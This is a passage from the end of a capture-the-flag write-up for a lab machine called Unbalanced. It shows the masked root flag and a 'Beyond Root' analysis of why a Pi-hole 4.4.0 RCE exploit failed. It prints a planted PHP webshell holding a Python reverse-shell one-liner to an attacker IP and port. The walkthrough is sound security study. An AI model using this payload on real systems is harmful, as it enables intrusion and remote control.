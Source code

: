 And now I can grab `root.txt`:

```

root@unbalanced:~# cat root.txt
97208547************************

```

## Beyond Root

When I tried to run the various one of the exploit script from `searchsploit`, “Pi-hole 4.4.0 - Remote Code Execution (Authenticated)”, it didn’t work on Unbalanced. I wanted to take a quick look at why. I commented out the steps to clean up at the end, and ran it. With my shell as www-data, I then went to look at the directory where the webshell should be written. The script was there, and it looked like it should work:

```

www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$ cat aznjimvv.php 
<?php
    shell_exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.24\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")
    ?>

```

If I remembered from trying to shell upgrade, I’d see the problem. If not, I could see it by running the script:

```

www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$ php aznjimvv.php 
sh: 1: python3: not found

```

Python3 isn’t installed. Neither is Python. So the PHP webshell works, but the Python reverse shell one liner that it tries to `shell_exec` fails.
